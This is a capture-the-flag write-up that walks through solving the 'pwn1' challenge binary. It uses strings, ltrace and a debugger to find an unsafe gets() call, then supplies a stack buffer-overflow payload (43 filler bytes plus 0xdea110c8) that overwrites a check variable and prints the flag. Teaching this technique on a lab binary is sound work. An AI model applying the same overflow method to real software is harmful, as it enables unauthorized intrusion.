


# pwn1 writeup

- Running strings on it:

```sh
noobuntu@noobuntu-VirtualBox:~/nightmare/bof/pwn1$ strings ./pwn1
/lib/ld-linux.so.2
libc.so.6
_IO_stdin_used
exit
fopen
puts
putchar
stdin
fgets
stdout
__cxa_finalize
setvbuf
_IO_getc
strcmp
__libc_start_main
GLIBC_2.1
GLIBC_2.1.3
GLIBC_2.0
_ITM_deregisterTMCloneTable
__gmon_start__
_ITM_registerTMCloneTable
UWVS
[^_]
Right. Off you go.
flag.txt
Stop! Who would cross the Bridge of Death must answer me these questions three, ere the other side he see.
What... is your name?
Sir Lancelot of Camelot
I don't know that! Auuuuuuuugh!
What... is your quest?
To seek the Holy Grail.
What... is my secret?
```


- Playing with the binary a little...

```sh
noobuntu@noobuntu-VirtualBox:~/nightmare/bof/pwn1$ ./pwn1
Stop! Who would cross the Bridge of Death must answer me these questions three, ere the other side he see.
What... is your name?
Lmao
I don't know that! Auuuuuuuugh!
```

- So let's use some juicy strings we found in `strings` output and put them in:

```sh
noobuntu@noobuntu-VirtualBox:~/nightmare/bof/pwn1$ ./pwn1
Stop! Who would cross the Bridge of Death must answer me these questions three, ere the other side he see.
What... is your name?
Sir Lancelot of Camelot
What... is your quest?
To seek the Holy Grail.
What... is my secret?
dunnoman
I don't know that! Auuuuuuuugh!
```

- It appears to be some kind of secret involved that we need to figure out.
- See the output of `ltrace`:

```sh
noobuntu@noobuntu-VirtualBox:~/nightmare/bof/pwn1$ ltrace ./pwn1 > /dev/null
__libc_start_main(0x63fb3779, 1, 0xff95fab4, 0x63fb38f0 <unfinished ...>
setvbuf(0xed42ada0, 0x2, 0, 0)                                                                = 0
puts("Stop! Who would cross the Bridge"...)                                                   = 107
puts("What... is your name?")                                                                 = 22
fgets(Sir Lancelot of Camelot
"Sir Lancelot of Camelot\n", 43, 0xed42a620)                                            = 0xff95f9ad
strcmp("Sir Lancelot of Camelot\n", "Sir Lancelot of Camelot\n")                              = 0
puts("What... is your quest?")                                                                = 23
fgets(To seek the Holy Grail.
"To seek the Holy Grail.\n", 43, 0xed42a620)                                            = 0xff95f9ad
strcmp("To seek the Holy Grail.\n", "To seek the Holy Grail.\n")                              = 0
puts("What... is my secret?")                                                                 = 22
gets(0xff95f9ad, 0x63fb3a63, 0xed42a620, 0dunno
)                                                   = 0xff95f9ad
puts("I don't know that! Auuuuuuuugh!")                                                       = 32
+++ exited (status 0) +++
```

- It grabs our input with __`gets`__ function, __which is a major red flag!__
- As you can see supplying an input far beyond the character limit we can crash the program:

```sh
noobuntu@noobuntu-VirtualBox:~/nightmare/bof/pwn1$ ./pwn1
Stop! Who would cross the Bridge of Death must answer me these questions three, ere the other side he see.
What... is your name?
Sir Lancelot of Camelot
What... is your quest?
To seek the Holy Grail.
What... is my secret?
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
I don't know that! Auuuuuuuugh!
Segmentation fault (core dumped)
```

- Supplying this input `AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABCD` into `gets`:

```sh
gef➤  x/wx $ebp-0x10
0xffffcf98:     0x44434241
```

- It gets overwritten (in reverse due to LE) with `0x44434241`
- ~~So to get the flag we need to give it: `\x38\xef\x5e\x21`~~
- *As a side note, it's best to see the assembly instead of trusting ghidra, as ghidra can show the same value in different representations, thus it can be confusing which value to use for overflow.*
- This is memory location of the `target_variable` that we need to overwrite with ~~`-0x215eef38`~~

```asm
   0x565557b4 <+59>:    mov    DWORD PTR [ebp-0x10],0x0
```

- This is decompiled `main` function from ghidra





- You can clearly see that `target_variable` is right under the buffer that is 43 bytes long.
- __This is the `cmp` in assembly that checks to see if we overflowed it with right value:__

```asm
   0x000008b2 <+313>:   cmp    DWORD PTR [ebp-0x10],0xdea110c8
```

- Let's overflow it so that it contains the correct value it requires:

- So because it has annoying logic, we must supply input in a file and feed it into the program.
- I've already put first two strings it compares:

```sh
noobuntu@noobuntu-VirtualBox:~/nightmare/bof/pwn1$ cat input.txt
Sir Lancelot of Camelot
To seek the Holy Grail.
```

- The only thing left is to append the last input to our `input.txt`

```sh
noobuntu@noobuntu-VirtualBox:~/nightmare/bof/pwn1$ python3 -c "import sys; sys.stdout.buffer.write(b'\xc8\x10\xa1\xde')" >> input.txt
noobuntu@noobuntu-VirtualBox:~/nightmare/bof/pwn1$ hexdump input.txt
0000000 6953 2072 614c 636e 6c65 746f 6f20 2066
0000010 6143 656d 6f6c 0a74 6f54 7320 6565 206b
0000020 6874 2065 6f48 796c 4720 6172 6c69 0a2e
0000030 10c8 dea1
0000034
noobuntu@noobuntu-VirtualBox:~/nightmare/bof/pwn1$ cat input.txt | ./pwn1
Stop! Who would cross the Bridge of Death must answer me these questions three, ere the other side he see.
What... is your name?
What... is your quest?
What... is my secret?
I don't know that! Auuuuuuuugh!
```

- This however doesn't work as expected.
- Turns out I've completely forgotten that I need to actually overflow the buffer by prepending the right value with 43 characters.
- Here is the correct solution:

```sh
noobuntu@noobuntu-VirtualBox:~/nightmare/bof/pwn1$ python3 -c "import sys; sys.stdout.buffer.write(b'\x41'*43+b'\xc8\x10\xa1\xde')" >> input.txt
noobuntu@noobuntu-VirtualBox:~/nightmare/bof/pwn1$ hexdump input.txt
0000000 6953 2072 614c 636e 6c65 746f 6f20 2066
0000010 6143 656d 6f6c 0a74 6f54 7320 6565 206b
0000020 6874 2065 6f48 796c 4720 6172 6c69 0a2e
0000030 4141 4141 4141 4141 4141 4141 4141 4141
*
0000050 4141 4141 4141 4141 4141 c841 a110 00de
000005f
noobuntu@noobuntu-VirtualBox:~/nightmare/bof/pwn1$ cat input.txt | ./pwn1
Stop! Who would cross the Bridge of Death must answer me these questions three, ere the other side he see.
What... is your name?
What... is your quest?
What... is my secret?
Right. Off you go.
flag{g0ttem_b0yz}
```

- Another way to solve this challenge is to just do everything in python3 using `sys` module:

```sh
noobuntu@noobuntu-VirtualBox:~/nightmare/bof/simple_bof/pwn1$ python3 -c 'import sys; sys.stdout.buffer.write(b"Sir Lancelot of Camelot\nTo seek the Holy Grail.\nAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xc8\x10\xa1\xde");' | ./pwn1
Stop! Who would cross the Bridge of Death must answer me these questions three, ere the other side he see.
What... is your name?
What... is your quest?
What... is my secret?
Right. Off you go.
flag{g0ttem_b0yz}

```

- Or even simpler way with `echo` command:

```sh
noobuntu@noobuntu-VirtualBox:~/nightmare/bof/simple_bof/pwn1$ echo -ne "Sir Lancelot of Camelot\nTo seek the Holy Grail.\nAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xc8\x10\xa1\xde" | ./pwn1
Stop! Who would cross the Bridge of Death must answer me these questions three, ere the other side he see.
What... is your name?
What... is your quest?
What... is my secret?
Right. Off you go.
flag{g0ttem_b0yz}
```
